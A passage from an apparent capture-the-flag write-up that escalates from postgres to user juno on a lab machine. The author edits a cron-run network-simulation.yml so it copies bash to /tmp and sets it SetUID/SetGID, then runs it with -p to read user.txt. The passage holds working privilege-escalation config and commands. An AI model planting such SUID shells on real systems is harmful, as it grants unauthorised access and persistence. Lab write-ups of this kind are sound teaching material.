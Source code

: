 It’s creating a network with a single gigabyte switch, and then four hosts. The first is a server the runs a Python webserver after three seconds, and then three clients that use `curl` to request that page after five seconds.

#### Modify

It looks like this can run whatever programs I want it to run. I’ll update the `network-simulation.yml` file in `/dev/shm`:

```
general:
  stop_time: 10s
  model_unblocked_syscall_latency: true

network:
  graph:
    type: 1_gbit_switch

hosts:
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/cp
      args: /bin/bash /tmp/0xdf
      start_time: 3s
    - path: /usr/bin/chmod
      args: 6755 /tmp/0xdf
      start_time: 5s

```

I’ll just have it create a single server with two processes. The first will create a copy of `bash` in `/tmp` and the seconds will set it as SetUID/SetGID. Once the cron runs, `/tmp/0xdf` is there, owned by juno, SetUID/SetGID, and running it with `-p` gives a shell with effective uid and gid of juno:

```
postgres@jupiter:/dev/shm$ ls -l /tmp/0xdf
-rwsr-sr-x 1 juno juno 1396520 Aug 31 20:56 /tmp/0xdf
postgres@jupiter:/dev/shm$ /tmp/0xdf -p
0xdf-5.1$ id
uid=114(postgres) gid=120(postgres) euid=1000(juno) egid=1000(juno) groups=1000(juno),119(ssl-cert),120(postgres)

```

I’m able to read `user.txt`:

```
0xdf-5.1$ cat user.txt
471f84c2************************

```

## Shell as jovian

